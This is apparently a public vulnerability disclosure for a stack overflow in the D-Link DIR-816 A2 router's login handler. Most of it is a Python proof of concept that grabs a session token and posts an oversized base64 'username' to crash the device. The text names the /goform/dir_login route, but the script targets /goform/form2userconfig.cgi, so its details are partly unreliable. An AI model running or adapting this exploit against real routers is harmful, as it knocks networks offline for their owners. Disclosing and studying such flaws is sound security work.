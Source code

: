 # D-Link DIR-816 A2 stack_overflow

**Vender**: D-Link

**Firmware version**: 1.10 B05

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**: http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

**Exploit Author**: [SkYe231](mailto:skye231@foxmail.com)

## detail

In the handler of route `/goform/dir_login`, the value of parameter `username` is base64 decoded and the result is saved on the stack:

![20210420002509](20210420002509.png)

However, there's no check on length of the `username` , and a very long input could lead to stack overflow and overwrite the return address.

## POC

> After running POC, the router will **crash**.

```python
# coding=utf-8
import requests
import re
import base64

ip = "192.168.0.1"
payload = base64.b64encode('a'*0x150)
print(len(payload))

print("[+]Get tokenid")
url = "http://{}/dir_login.asp".format(ip)
rsp = requests.get(url)

pattern = re.compile(r'name="tokenid"  value="\d+"')
result = pattern.findall(rsp.text)
tokenid = result[0].split('value="')[-1].strip('"')
print("[+]tokenid:{}".format(tokenid))

url = "http://{}/goform/form2userconfig.cgi".format(ip)
data = {"username": payload, "newpass": '', "tokenid": tokenid}
try:
    requests.post(url, data=data, allow_redirects=False, timeout=1)
except:
    pass
print("[+]DIR816 Crash")
```

<video src="验证视频.mp4"></video>

